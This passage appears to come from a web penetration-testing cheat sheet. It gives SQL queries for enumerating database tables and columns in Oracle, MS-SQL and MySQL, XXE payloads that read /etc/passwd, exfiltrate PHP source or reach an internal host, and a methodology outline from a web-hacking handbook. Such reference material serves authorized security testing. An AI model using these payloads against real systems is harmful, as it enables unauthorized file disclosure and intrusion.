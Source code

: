 **Select user tables**
* Oracle
	- `SELECT object_name, object_type FROM user_objects WHERE object_type='TABLE'`
	- Or to show all tables to which the user has access:
		* `SELECT table_name FROM all_tables`
* MS-SQL
	- `SELECT name FROM sysobjects WHERE xtype='U'`
* MySQL
	- `SELECT table_name FROM information_schema.tables where table_type='BASE TABLE' and table_schema!='mysql'`

**Show column names for table foo**
* Oracle
	- `SELECT column_name, name FROM user_tab_columns WHERE table_name = 'FOO'`
	- Use the `ALL_tab_columns` table if the target data is not owned by the current application user.
* MS-SQL
	- `SELECT column_name FROM information_schema.columns WHERE table_name='foo'`
* MySQL
	- `SELECT column_name FROM information_schema.columns WHERE table_name='foo'`

## XML External Entity
* Call the external entity with `&sp;`
* `<!DOCTYPE r [<!ELEMENT r ANY ><!ENTITY sp SYSTEM "file:///etc/passwd">]>`
* `<!DOCTYPE r [<!ELEMENT r ANY ><!ENTITY sp SYSTEM "php://filter/read=convert.base64-encode/resource=admin.php">]>`
* `<!DOCTYPE r [<!ELEMENT r ANY ><!ENTITY sp SYSTEM "http://192.168.140.135/robots.txt">]>`

## Methodology
From "The Web Application Hacker's Handboook"
1. Map the Application’s Content
	1. Explore Visible Content
	2. Consult Public Resources
	3. Discover Hidden Content
	4. Discover Default Content
	5. Enumerate Identifier-Specified Functions
	6. Test for Debug Parameters
2. Analyze the Application
	1. Identify Functionality
	2. Identify Data Entry Points
	3. Identify the Technologies Used
	4. Map the Attack Surface
3. Test Client-Side Controls
	1. Test Transmission of Data Via the Client
	2. Test Client-Side Controls Over User Input
	3. Test Browser Extension Components
4. Test the Authentication Mechanism
	1. Understand the Mechanism
	2. Test Password Quality
	3. Test for Username Enumeration
	4. Test Resilience to Password Guessing
	5. Test Any Account Recovery Function
	6. Test Any Remember Me Function
	7. Test Any Impersonation Function
	8. Test Username Uniqueness
	9. Test Predictability of Autogenerated Credentials
	10. Check for Unsafe Transmission of Credentials
	11. Check for Unsafe Distribution of Credentials
	12. Test for Insecure Storage
	13. Test for Logic Flaws
	14. Exploit Any Vulnerabilities to Gain Unauthorized Access
5. Test the Session Management Mechanism
	1. Understand the Mechanism
	2. Test Tokens for Meaning